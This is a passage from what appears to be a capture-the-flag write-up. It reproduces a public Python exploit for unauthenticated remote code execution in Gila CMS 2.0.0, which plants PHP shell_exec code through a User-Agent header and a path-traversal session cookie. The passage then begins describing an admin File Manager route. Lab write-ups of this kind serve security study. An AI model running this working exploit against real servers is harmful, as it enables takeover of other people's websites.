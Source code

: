 The content of the exploit file is:

```
# Exploit Title: Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)
# Date: 1.12.2021
# Exploit Author: Enesdex
# Vendor Homepage: https://gilacms.com/
# Software Link: https://github.com/GilaCMS/gila/releases/tag/2.0.0
# Version: x < 2.0.0
# Tested on: Windows 10

import requests
import time

target_url = "http://192.168.1.101:80/Gila/"
cmd = "calc.exe"

url = target_url+"?c=admin"
cookies = {"GSESSIONID": "../../index.php"}
headers = {"User-Agent": "<?php shell_exec('"+cmd+"'); include 'src\\core\\bootstrap.php';  ?>"}
requests.get(url, headers=headers, cookies=cookies)
time.sleep(5)
requests.get(target_url+"/index.php")
```

However, I have more simple way to exploit in this case. Navigate to the side-bar > Hover the **Content** > Click on **File Manager**:

![Untitled](/assets/CMesS%20images/Untitled%204.png)